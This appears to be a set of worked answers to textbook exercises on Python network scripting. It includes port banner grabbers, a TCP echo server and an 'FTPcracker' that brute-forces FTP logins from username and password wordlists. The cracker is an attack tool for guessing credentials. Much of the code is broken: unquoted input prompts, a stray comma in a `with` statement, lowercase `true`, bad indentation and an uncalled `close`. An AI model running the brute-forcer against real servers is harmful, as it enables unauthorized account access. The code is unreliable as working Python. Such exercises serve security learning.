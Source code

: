 # Chapter 17 Exercise Problems

### 1.

Build the SSH banner-grabbing tool from Listing 17-5 and then edit it to do a banner grab on port `21`.

---

```python
#! /usr/bin/python3

import socket

Ports = [21]

for Port in Ports:

  s = socket.socket()

  print('This is the Banner for the Port')

  print(Port)

  s.connect(('192.168.1.191', Port))

  answer = s.recv(1024)

  print(answer)

  s.close()
```

---

### 2.

Rather than hardcoding the IP address into the script, edit your banner-grabbing tool so that it prompts the user for the IP address.

---

```python
#! /usr/bin/python3

import socket

Ports = [21, 22, 25, 3306]

IP = input(IP Adress: )

for Port in Ports:

  s = socket.socket()

  print('This is the Banner for the Port')

  print(Port)

  s.connect((IP, Port))

  answer = s.recv(1024)

  print(answer)

  s.close()
```

---

### 3.

Edit your `tcp_server.py` to prompt the user for the port to listen on.

---

```python
#! /usr/bin/python3

import socket

TCP_IP = '192.168.181.190'
TCP_PORT = input('Port: ')
BUFFER_SIZE = 100

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.bind((TCP_IP, TCP_PORT))
s.listen(1)

conn, addr = s.accept()
print('Connection address: ', addr)

while true:
  data = conn.recv(BUFFER_SIZE)
  if not data:
    break
  print('Received data: ', data)
    conn.send(data) #echo

conn.close
```

---

### 4.

Build the `FTPcracker` in Listing 17-7 and the edit it to use a wordlist for user variable (similar what we did with the password) rather than prompting the user for input.

---

```python
#! /usr/bin/python3

import ftplib

server = input('FTP Server: ')

Userlist = input('Path to User List > ')

Passwordlist = input('Path to Password List > ')

try:

  with open(Userlist, 'r'), as uw:

    for user in uw:

      try:

        with open(Passwordlist, 'r') as pw:

          for word in pw:

            word = word.strip('\r\n')

            try:

              ftp = ftplib.FTP(server)

              ftp.login(user, word)

              print('Success! The password is ', word)

            except ftplib.error_perm as exc:

              print('Still trying...', exc)

      except Exception as exc:

        print('Wordlist error: ', exc)

except Exception as exc:

  print('Wordlist error: ', exc)
```

---

### 5.

Add an except clause to the banner-grabbing tool that prints "no answer" if the port is closed.

---

```python
#! /usr/bin/python3

import socket

Ports = [21, 22, 25, 3306]

IP = input(IP Adress: )

for Port in Ports:

  s = socket.socket()

  print('This is the Banner for the Port')

  print(Port)

  try:
    s.connect((IP, Port))

    answer = s.recv(1024)

    print(answer)

    s.close()

  except:
    print('No answer')
```

---
